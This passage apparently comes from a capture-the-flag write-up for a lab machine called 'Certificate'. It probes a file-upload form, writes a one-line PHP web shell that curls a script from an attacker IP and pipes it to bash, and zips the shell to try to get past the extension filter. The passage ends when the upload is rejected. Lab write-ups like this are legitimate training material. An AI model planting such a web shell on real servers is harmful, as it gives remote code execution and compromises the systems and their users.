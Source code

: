 ![Upload](/assets/img/img_Certificate/Certificate-1748734381319.png)
When we click `submit` we're greeted with an upload form that mentions the file types `pdf,docx,pptx,xlsx,zip`.

So let's write ourselves a `php` shell.
```php
<?php system("curl http://10.10.14.158:3232/comp.sh | bash")?>
```

Next let's put it in a `zip` file.
```bash
zip shell.zip shell.php
  adding: shell.php (deflated 1%)
```

After which, if we upload it we get the following.
![Invalid Extension](/assets/img/img_Certificate/Certificate-1748734673591.png)
